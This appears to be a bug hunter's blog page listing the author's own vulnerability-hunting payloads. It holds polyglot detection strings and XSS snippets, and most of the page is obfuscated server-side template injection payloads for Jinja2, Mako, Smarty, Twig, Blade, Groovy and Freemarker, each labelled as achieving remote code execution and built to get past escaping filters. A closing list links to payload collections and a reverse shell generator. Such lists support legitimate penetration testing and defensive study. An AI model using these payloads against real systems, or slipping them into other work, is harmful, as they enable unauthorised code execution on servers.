 ```yaml
---
# the default layout is 'page'
icon: fa-solid fa-book-skull
order: 3
---
```


A list of payloads that I do use when hunting for vulnerabilities. Personaly, I rarly use exploitation payloads but instead detection payloads.

> All payloads shown on this page are created by me. I provide a basic overview of my payloads, exploitation payloads and more advanced detection payloads will not be shared.
{{'{'}}: .prompt-info }

## Polyglot payloads
> This payload focuses on the detection of syntax errors

```brainfuck
<z>"z'z`%}})z${{'{'}}{{'{'}}z\
```

> This payload focuses on detecting transformation that can be used in future attacks

```brainfuck
tfmtstart%255Az%5Az\x5Az\u005Az%26%23x5A%3Btfmtend
```

## Cool payloads
> This core payload was discoverd by the amazing research [garethheyes](https://x.com/garethheyes){:target="_blank"}!
You can read more about his research on it [here](https://x.com/garethheyes/status/1813658752245236105){:target="_blank"}.

I made a few adjustments to it:
```html
<script>'<!--<script>'</script>//alert(1)</script>
```

> The Fake comment XSS

```
/\///alert(1)
```

## Server Side Template Injection (SSTI)
### Double template rendering payloads

> Some of the indexes used in the payload to extract characters for strings may need to be changed depending on the application you are using.
{: .prompt-info }

> These payloads can be used to bypass `autoescape` / `html escape` filters.
{: .prompt-tip }


#### Jinja2

**Impact:** Remote Code Execution (RCE)

```python
{{'{'}}{{'{'}}self._TemplateReference__context.cycler.__init__.__globals__.os.popen(self.__init__.__globals__.__str__()[150:152]+self.__init__.__globals__.__str__()[694]).read()}}
```

#### Mako

**Impact:** Remote Code Execution (RCE)

```python
${{'{'}}self.module.cache.util.os.popen(str().join(chr(i)for(i)in[105,100])).read()}
```

#### Smarty

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}passthru(implode(Null,array_map(chr(99)|cat:chr(104)|cat:chr(114),[105,100])))}}
```

#### Twig

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}id~passthru~_context|join|slice(2,2)|split(000)|map(_context|join|slice(5,8))}}
```
```php
{{'{'}}%block U%}id000passthru{{'{'}}%endblock%}{{'{'}}%set x=block(_charset|first)|split(000)%}{{'{'}}{{'{'}}[x|first]|map(x|last)|join}}
```

####  Blade

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}passthru(implode(Null,array_map(chr(99).chr(104).chr(114),[105,100])))}}
```

#### Groovy

**Impact:** Remote Code Execution (RCE)

```java
${{'{'}}x=new String();for(i in[105,100]){{'{'}}x+=((char)i).toString()};x.execute().text}
```

#### Freemarker

**Impact:** Remote Code Execution (RCE)

```java
${{'{'}}(6?lower_abc+18?lower_abc+5?lower_abc+5?lower_abc+13?lower_abc+1?lower_abc+18?lower_abc+11?lower_abc+5?lower_abc+18?lower_abc+1.1?c[1]+20?lower_abc+5?lower_abc+13?lower_abc+16?lower_abc+12?lower_abc+1?lower_abc+20?lower_abc+5?lower_abc+1.1?c[1]+21?lower_abc+20?lower_abc+9?lower_abc+12?lower_abc+9?lower_abc+20?lower_abc+25?lower_abc+1.1?c[1]+5?upper_abc+24?lower_abc+5?lower_abc+3?lower_abc+21?lower_abc+20?lower_abc+5?lower_abc)?new()(9?lower_abc+4?lower_abc)}
```

You can find a lot of great resources related to payloads below.
- [Payloads All The Things
](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [Reverse Shell Generator](https://www.revshells.com/)

